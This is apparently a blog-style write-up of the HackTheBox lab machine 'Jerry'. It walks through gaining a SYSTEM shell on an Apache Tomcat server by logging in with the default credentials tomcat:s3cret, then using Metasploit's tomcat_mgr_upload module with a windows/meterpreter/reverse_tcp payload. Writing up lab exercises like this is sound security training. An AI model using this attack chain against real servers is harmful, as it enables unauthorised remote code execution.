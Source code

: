 ```yaml
---
title: HackTheBox Jerry Write-Up
date: 2025-06-01 12:00:00 -0400
categories: [Write-Ups]
tags: [CTF]
image: /assets/img/5b769bc7.png
---
```


Jerry is an easy-difficulty Windows machine on
[HackTheBox](https://www.hackthebox.com/) showcasing how to exploit Apache
Tomcat to achieve remote code execution (RCE). Default credentials are used to
access Apache Tomcat's manager app, which can be used to upload a
malicious WAR archive that allows us to open a shell on the remote Windows
machine under the privileged user `NT AUTHORITY/SYSTEM`.

- OS: **Windows**
- Difficulty: **Easy**
- Services: **Apache Tomcat**
- Vulnerabilities: **Default Credentials**, **Arbitrary File Upload**, **Remote
  Code Execution**

## Reconnaissance

As with all machines, we start our reconnaissance with a simple port scan using
`nmap`.

![nmap](/assets/img/d04d70cf.png)

`nmap` shows Apache Tomcat running on port 8080 and that the target is a Windows
machine. Navigating to `http://10.10.10.95:8080/`, we find the default homepage
for Apache Tomcat.

![Apache Tomcat](/assets/img/cb18611d.png)

We see there is a button called "Manager App", which may lead us to an admin
portal of some kind.

## Accessing the Manager App

Upon trying to access the manager app, we're prompted for a username
and password. Default credentials like `admin:admin` and `admin:password` do not
work, and we are redirected to the below 403 page after an unsuccessful login.

![403 denied](/assets/img/8af946e9.png)

On the 403 page, the credentials `tomcat:s3cret` are given as an example.
Unfortunately, we are no longer able to login via our current browser session
without clearing our browsing data. Instead, we can simply open the same page in
a private tab (`ctrl+shift+p` on Firefox).

Upon entering `tomcat:s3cret`, we gain access to the manager app.

![Manager homepage](/assets/img/c0af6db2.png)

The applications at the top of the page aren't of much interest, but scrolling
down we see an upload form for `.war` files.

![WAR upload form](/assets/img/d5c8e595.png)

## Uploading a Malicious Payload

Searching online for Apache Tomcat Manager upload exploits, we find this [Rapid7
exploit](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/).
Luckily, most of the exploits in Rapid7's database can easily be run via
Metasploit. We open Metasploit with the command `msfconsole` and select the
appropriate exploit, `exploit/multi/http/tomcat_mgr_upload`, as instructed on
the Rapid7 web page. We'll have to set several options for this exploit to work
properly with the command `set NAME VALUE`.

- `HttpPassword` -> `s3cret`
- `HttpUsername` -> `tomcat`
- `RHOSTS` -> `10.10.10.95`
- `RPORT` -> `8080`

Now that the module options are out of the way, we need to configure our payload
and target. Since we are targeting a Windows machine, we must set the target ID
appropriately. `show targets` indicates we should set the target ID to 1 (`set
target 1`). We also change the payload to `windows/meterpreter/reverse_tcp`
instead of the default `java/meterpreter/reverse_tcp`.

By default, your primary interface will be used as the value for `LHOST`, your
local machine. I am connecting to the box via OpenVPN, so I need to change this
to the address of my VPN interface (`set LHOST tun0`). When complete, your
options should look like what is shown below.

![Msfconsole completed options](/assets/img/3bb263dc.png)

Upon typing `exploit`, everything runs successfully and we now have a shell on
the remote system!

![Meterpreter shell](/assets/img/78c5a52c.png)

Dropping into a Windows shell from Meterpreter, we run `whoami` and,
surprisingly, we are already running as `NT AUTHORITY/SYSTEM`, a default user
with administrator privileges.

## Flags

As usual, the appropriate flags are located in the Desktop directory of the
appropriate users. It seems in this case, both the user and root flags are
stored in `C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt`. Using
the `type` command, we are able to print their values.

![Flags](/assets/img/b08ffffa.png)

# Conclusion

That concludes Jerry, a relatively simple machine with a straight forward path
to root. To summarize, we took advantage of several security flaws present in
this box:

- Exposed default homepage
- Default credentials
- Insecure file upload
- Service running as privileged user

